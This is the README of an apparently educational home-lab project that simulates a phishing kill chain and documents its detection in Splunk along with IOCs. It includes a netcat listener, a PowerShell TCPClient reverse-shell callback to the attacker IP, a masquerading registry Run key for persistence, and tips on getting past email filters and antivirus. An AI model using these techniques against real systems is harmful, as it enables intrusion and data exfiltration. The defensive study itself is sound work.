


# Phishing- Simulation, Detection & Incident Response

A complete end-to-end simulation of a phishing attack followed by full incident response investigation. Built in a home lab environment using real industry tools - Splunk, Windows Event Logs, MXToolbox, and VirusTotal.

---

## Project Overview

This project simulates a realistic phishing attack across the full Cyber Kill Chain - from crafting and delivering a malicious email, to executing a payload, establishing persistence, beaconing back to an attacker machine (C2), and exfiltrating data. Every phase was then investigated and documented as a formal incident report.

---

## Lab Environment

| Machine | Role | OS |
|---|---|---|
| Ubuntu VM (VirtualBox) | Attacker | Ubuntu 24 |
| Windows Laptop | Victim | Windows 11 Home |

Both machines on the same bridged network - simulating an attacker and victim on the same LAN.

---

## Tools Used

| Tool | Purpose |
|---|---|
| Splunk Enterprise | SIEM detection and process chain analysis |
| Windows Event ID 4688 | Process creation logging |
| MXToolbox | Email header and authentication analysis |
| VirusTotal | Payload hash reputation check |
| netcat | C2 listener on attacker machine |
| auditpol | Windows audit policy configuration |
| PowerShell | Payload delivery and C2 beacon |

---

## Simulation Phases (Cyber Kill Chain)

### 1. Delivery
Crafted a phishing email impersonating an IT security notice. Payload was disguised as `invoice_report.txt` inside a password-protected zip to bypass email content filters. Password was included in the email body - a classic social engineering technique.


**Email Authentication Failures (MXToolbox):**
- DKIM: ❌ Not signed
- DMARC: ❌ Failed
- SPF: ❌ Not authenticated
- Originating server flagged on blacklist


---

### 2. Execution
Victim extracted the zip, renamed the file to `.bat`, and executed it. Windows logged `explorer.exe` spawning `cmd.exe` - the key red flag indicating a user ran a malicious script.



---

### 3. Reconnaissance
The payload immediately ran system recon commands - `whoami`, `systeminfo`, `ipconfig`, `net user`, `net localgroup administrators` - to profile the victim machine. All captured as Event ID 4688 entries in Splunk.

---

### 4. Persistence
A registry Run key named `WindowsUpdater` was added to survive reboots. The name was chosen to blend in with legitimate startup programs - a masquerading technique.

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
WindowsUpdater = C:\Users\theep\invoice_report.bat
```


---

### 5. Command & Control (C2)
PowerShell established a TCP connection back to the attacker machine on port 4444. The attacker received the connection via netcat - simulating a reverse shell C2 beacon.

```
Attacker:  nc -lvp 4444
Victim:    PowerShell New-Object Net.Sockets.TCPClient('192.168.0.24', 4444)
```


---

### 6. Exfiltration
All reconnaissance data was sent over the C2 connection to the attacker - including OS details, network config, installed patches, and a full list of admin accounts.

---

## Detection - Splunk

The entire attack chain was detected using a single Splunk SPL query hunting for suspicious parent-child process relationships:

```spl
index=* EventCode=4688
| where New_Process_Name="C:\\Windows\\System32\\cmd.exe"
OR New_Process_Name="C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
OR Creator_Process_Name="C:\\Windows\\System32\\cmd.exe"
OR Creator_Process_Name="C:\\Windows\\explorer.exe"
| table _time, user, New_Process_Name, Creator_Process_Name
| sort _time
```


**Complete attack chain visible in Splunk:**

| Time | Process | Parent | Phase |
|---|---|---|---|
| 18:40:04 | cmd.exe | explorer.exe | Execution |
| 18:40:04 | whoami.exe | cmd.exe | Recon |
| 18:40:04 | systeminfo.exe | cmd.exe | Recon |
| 18:40:08 | ipconfig.exe | cmd.exe | Recon |
| 18:40:08 | net.exe | cmd.exe | Recon |
| 18:40:08 | reg.exe | cmd.exe | Persistence |
| 18:40:08 | powershell.exe | cmd.exe | C2 + Exfil |

---

## IOCs (Indicators of Compromise)

| Type | Value |
|---|---|
| Sender Email | amahalaxmiarulljothi@hawk.illinoistech.edu |
| Malicious File | invoice_report.bat |
| File Hash (SHA256) | d8d89dba02219e4d3014a0fa4bdf9e671e2891b95cbf0d4381d595f9c02d06d8 |
| Attacker IP | 192.168.0.24 |
| C2 Port | 4444 (TCP) |
| Registry Key | HKCU\...\Run\WindowsUpdater |




**VirusTotal result: Hash not found** - the custom payload would bypass all signature-based antivirus engines. Only behavioral detection via Splunk caught it.

---

## Key Findings

- Password-protected zips successfully bypass email content filters
- A custom payload with no prior signatures is invisible to traditional AV
- Behavioral analysis (Event 4688 + Splunk) detected the full attack chain
- The attacker used masquerading (naming the registry key "WindowsUpdater") to blend in with legitimate startup entries
- The entire kill chain from execution to exfiltration completed in under 5 seconds

---

## Repository Structure

```
phishing-incident-response/
│
├── README.md
├── report/
│   └── Incident_Report_IR-2026-001.md
├── screenshots/
│   └── (all evidence screenshots)
├── payloads/
│   └── invoice_report.bat
└── splunk-queries/
    └── queries.md
```

---

## Full Incident Report

The complete incident report including timeline, root cause analysis, containment steps, and recommendations is available here:

📄 [Incident Report IR-2026-001](report/Incident_Report_IR-2026-001.md)

---

*All activities were conducted in a controlled lab environment for educational purposes only.*
